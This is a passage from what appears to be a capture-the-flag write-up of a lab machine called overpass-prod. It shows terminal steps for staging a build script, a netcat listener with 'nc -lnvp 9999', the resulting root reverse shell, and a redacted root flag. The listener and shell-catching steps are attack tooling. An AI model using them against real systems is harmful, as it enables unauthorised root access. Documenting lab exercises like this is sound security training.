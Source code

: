     ```bash
    ┌──(kali㉿kali)-[~]
    └─$ mkdir downloads
                                                                                                                                                        
    ┌──(kali㉿kali)-[~]
    └─$ cd downloads
                                                                                                                                                        
    ┌──(kali㉿kali)-[~/downloads]
    └─$ mkdir src      
                                                                                                                                                        
    ┌──(kali㉿kali)-[~/downloads]
    └─$ cd src      
                                                                                                                                                        
    ┌──(kali㉿kali)-[~/downloads/src]
    └─$ code buildscript.sh
    ```

- Set up our `netcat` listener.

    ```bash
    $ nc -lnvp 9999
    listening on [any] 9999 ...
    ```

- Wait until we got our shell back.

    ```bash
    $ nc -lnvp 9999
    listening on [any] 9999 ...
    connect to [10.11.25.205] from (UNKNOWN) [10.10.235.0] 34080
    bash: cannot set terminal process group (2516): Inappropriate ioctl for device
    bash: no job control in this shell
    root@overpass-prod:~# 
    ```

root.txt:

```bash
root@overpass-prod:~# cat root.txt
cat root.txt
thm{REDACTED}
```